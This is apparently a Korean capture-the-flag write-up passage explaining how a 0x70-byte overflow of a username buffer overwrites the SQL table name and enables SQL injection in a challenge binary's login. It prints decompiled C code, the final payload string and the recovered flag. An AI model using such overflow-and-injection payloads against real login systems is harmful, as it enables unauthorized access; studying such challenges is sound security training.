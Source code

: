 여기서 보면 username이 0x95보다 작을 때 그 값을 첫번째 인자값에 덮어쓰게 된다.

하지만 `get_user_id` 함수에서 정의된 `check_hacking_attempt`의 첫번 째 인자는 크기가 0x70이고 그 다음에 users의 값이 들어간 변수가 오는 것을 확인할 수 있다.

```c
signed __int64 __fastcall get_user_id(__int64 username, __int64 password, unsigned int (__fastcall *callback)(char *, __int64))
{
    ...
    char this; // [rsp+30h] [rbp-220h]
    char table[6]; // [rsp+A0h] [rbp-1B0h]
    strcpy(table, "users");
    if ( callback(&this, username) == 1 )
    ...
}
```

즉 우리는 `username`의 값에 `dummy[0x70]+Query`를 삽입하면  `SQL Injection`이 발생하는 것을 알 수 있다.

```c
snprintf(&s, 0x131uLL, "select rowid from %s where username = '%s' and password = '%s';", table, username, password);
```

최종적으로 완성된 공격 쿼리는 다음과 같다.

```
'A'*0x70 + 'users where rowid=1 -- %00'
```

이를 username에 넣어주면 로그인되어 플래그를 얻을 수 있다.

FLAG : ooo{IMHO, Hell is other people AND other people’s code}